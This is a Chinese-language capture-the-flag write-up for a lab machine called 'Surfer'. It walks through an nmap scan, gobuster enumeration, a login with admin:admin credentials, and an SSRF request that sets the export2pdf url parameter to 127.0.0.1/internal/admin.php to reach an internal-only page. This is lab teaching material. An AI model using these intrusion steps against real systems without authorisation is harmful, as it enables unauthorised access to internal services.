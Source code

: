 # Surfer

哇，看看这个激进的应用程序！不是纳利公子吗？我们一直在浏览一些网页，我们也想让你加入！他们说这个应用程序有一些功能，只能供内部使用 - 但如果你赶上了正确的浪潮，你可能会找到甜蜜的东西！

---

## 端口扫描

    ┌──(root🐦kali)-[/home/sugobet]
    └─# nmap -sS 10.10.21.153
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-15 19:32 CST
    Nmap scan report for 10.10.21.153
    Host is up (0.30s latency).
    Not shown: 998 closed tcp ports (reset)
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

## web检索

web一打开就是一个登录页面

gobuster扫一下：

    gobuster dir --url http://10.10.21.153/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt

    /backup               (Status: 301) [Size: 313] [--> http://10.10.21.153/backup/]
    /index.php            (Status: 302) [Size: 0] [--> /login.php]
    /internal             (Status: 301) [Size: 315] [--> http://10.10.21.153/internal/]
    /robots.txt           (Status: 200) [Size: 40]
    /server-status        (Status: 403) [Size: 277]
    /vendor               (Status: 301) [Size: 313] [--> http://10.10.21.153/vendor/]

robots.txt:

    User-Agent: *
    Disallow: /backup/chat.txt

chat.txt是一段对话：

    Admin: I have finished setting up the new export2pdf tool.
    Kate: Thanks, we will require daily system reports in pdf format.
    Admin: Yes, I am updated about that.
    Kate: Have you finished adding the internal server.
    Admin: Yes, it should be serving flag from now.
    Kate: Also Don't forget to change the creds, plz stop using your username as password.
    Kate: Hello.. ?

爆破/internal

    gobuster dir --url http://10.10.21.153/internal/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt

    /admin.php            (Status: 200) [Size: 39]

该页面只允许本地访问：

    This page can only be accessed locally.

尝试修改x-forwarded-for绕过，并没有成功

好了，目录枚举到此为止

回到我们刚刚那段对话，从最后一句话的语态可以看得出，admin应该没有改密码

所以回到登录页面尝试一下admin:admin

登录成功

## SSRF

在后台找到了那段对话中所说的export2pdf的功能

点击后：


    Report generated for http://127.0.0.1/server-info.php
    
    Hosting Server Information

    Operating System: Linux
    Server IP: 127.0.0.1
    Server Hostname: 01a5b58d4be9
    Server Protocol: HTTP/1.1
    Server Administrator: webmaster@localhost
    Server Web Port: 80
    PHP Version: 7.2.34
    CGI Version: CGI/1.1
    System Uptime: 12:28:10 up 57 min, 0 users, load average: 0.00, 0.00, 0.00
    Powered by TCPDF (www.tcpdf.org)

这句话有点意思：

    Report generated for http://127.0.0.1/server-info.php

我尝试访问“http://10.10.21.153/server-info.php”

    Hosting Server Information

    Operating System:Linux
    Server IP:172.17.0.2
    Server Hostname:01a5b58d4be9
    Server Protocol:HTTP/1.1
    Server Administrator:webmaster@localhost
    Server Web Port:80
    PHP Version:7.2.34
    CGI Version:CGI/1.1
    System Uptime:12:19:30 up 48 min, 0 users, load average: 0.00, 0.00, 0.00

burp抓包还看到：

    POST /export2pdf.php HTTP/1.1

    请求表单：
        url=http://127.0.0.1/server-info.php

很明显了。export2pdf功能可以将网络任意文件转为pdf，但，如果这个文件是来自本地内部才允许访问的呢

还记得我们刚刚扫描得到/internal/admin.php

burp将刚刚抓的包丢进repeater，url参数改成：

    url=http://127.0.0.1/internal/admin.php

发送此包，成功拿到flag

    flag{6255c5*********53c9937810}
